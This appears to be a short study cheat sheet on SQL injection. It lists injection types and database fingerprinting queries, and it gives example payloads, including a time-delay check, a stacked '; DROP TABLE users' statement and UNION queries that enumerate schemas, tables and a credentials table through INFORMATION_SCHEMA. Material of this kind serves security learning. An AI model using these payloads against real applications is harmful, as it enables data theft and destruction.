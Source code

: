 
### SQL Injections

##### Injection types:

- **Union Based:** 
  - output readable on the front-end
  - specify location (i.e. column)
- **Error Based:** 
  - errors readable on the front-end
- **Boolean Based** (blind)
  - Boolean condition true &rarr; size or status change of HTML request
- **Time Based** (blind)
  - Boolean condition true &rarr; delay response with `Sleep()` &rarr; time change
  - e.g. `AND 1=IF(2>1,SLEEP(5),0)`
- **Stacked Queries**
  -  injecting additional SQL statements after the vulnerable one. 
  - e.g. `; DROP TABLE users`
- **Out of Band:**
  - output in a DNS record

##### Context:

Relational database structure in the back-end (e.g. MySQL). *Relational databases* have data stored in tables and use SQL for queries

- Apache / Nginx &rarr; Problably running on Linux &rarr; likely `MySQL`

  - Identify with:

    - If you have full query output: `SELECT @@version` 

      In MSSQL it returns MSSQL version. Error with other DBMS.

    - Numeric output: `SELECT POW(1,1)`

      Error with other DBMS.

    - Blind: `SELECT SLEEP(5)`

      Will not delay response with other DBMS

  - Use `INFORMATION_SCHEMA` to get the structure of the database

    ```sql
    cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
    ```

    ```sql
    cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- 
    ```

    ```sql
    cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- 
    ```
